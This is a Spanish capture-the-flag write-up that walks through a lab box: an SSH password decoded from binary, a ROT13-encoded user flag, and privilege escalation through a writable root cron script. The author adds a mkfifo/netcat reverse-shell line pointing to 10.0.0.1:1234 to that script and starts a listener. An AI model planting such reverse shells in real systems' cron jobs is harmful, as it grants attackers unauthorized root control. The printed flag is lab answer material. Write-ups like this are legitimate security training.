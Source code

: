 A través del página "https://www.rapidtables.com/convert/number/binary-to-ascii.html" traducimos el binario a ASCII/UTF-8 y obtenemos la contraseña SSH.

```
ssh boring@10.10.21.123 -p 6498
```

Encontramos el directorio "/home/boring/user.txt" lo pintamos en consola:
```
cat /home/boring/user.txt
------------------------
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4-}
------------------------
```
Utilizamos la página "https://www.dcode.fr/caesar-cipher" que contiene una herramienta que decodificará dicha llave.

Buscamos los cron activos y los listamos:
```
cat /etc/crontab
------------------
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
------------------
```
Observamos que ejecuta con privilegios root un script ubicado dentro "/var/www/" llamado ".mysecretcronjob.sh"

Editamos dicho archivo:
```
nano .mysecretcronjob.sh
--------------------
#!/bin/bash
# i will run as root
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
--------------------
```
Agregando la última línea para crear el shell reverso, mientras que en la pc que recibirá la conexión:
```
nc -lvp 1234
```
Finalmente al generar la conexión tendermos un shell como root.


